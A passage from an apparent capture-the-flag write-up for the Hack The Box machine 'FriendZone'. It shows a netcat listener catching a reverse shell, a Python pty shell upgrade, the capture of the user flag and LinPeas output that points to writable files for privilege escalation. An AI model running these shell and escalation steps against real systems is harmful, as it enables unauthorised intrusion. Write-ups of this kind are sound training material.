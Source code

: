 On a NetCat Side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.123] 50914
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@FriendZone:/var/www/admin$ export TERM=xterm
export TERM=xterm
www-data@FriendZone:/var/www/admin$ cd /home
cd /home
www-data@FriendZone:/home$ ls
ls
friend
www-data@FriendZone:/home$ cd friend
cd friend
www-data@FriendZone:/home/friend$ ls
ls
user.txt
www-data@FriendZone:/home/friend$ cat user.txt
cat user.txt
cd6c88d*********************
www-data@FriendZone:/home/friend$ 
```
Get your User flag

### `Privilege Escalation`

###### `LinPeas Findings`
```
Linux version 4.15.0-36-generic (buildd@lgw01-amd64-031) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018
Sudo version 1.8.21p2

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                       
/dev/mqueue                                                                                                                                                             
/dev/shm
/etc/Development
/etc/Development/callmeback.php
/etc/Development/cmd.php
/etc/sambafiles
/run/lock
/run/lock/apache2
/tmp
/tmp/LinEnum.sh
/tmp/linpeas.sh
/usr/lib/python2.7
/usr/lib/python2.7/os.py
/var/cache/apache2/mod_cache_disk
/var/lib/php/sessions
/var/spool/samba
/var/tmp

╔══════════╣ Web files?(output limit)
/var/www/:                                                                                                                                                              
total 36K
drwxr-xr-x  8 root root 4.0K Sep 13  2022 .
drwxr-xr-x 12 root root 4.0K Sep 13  2022 ..
```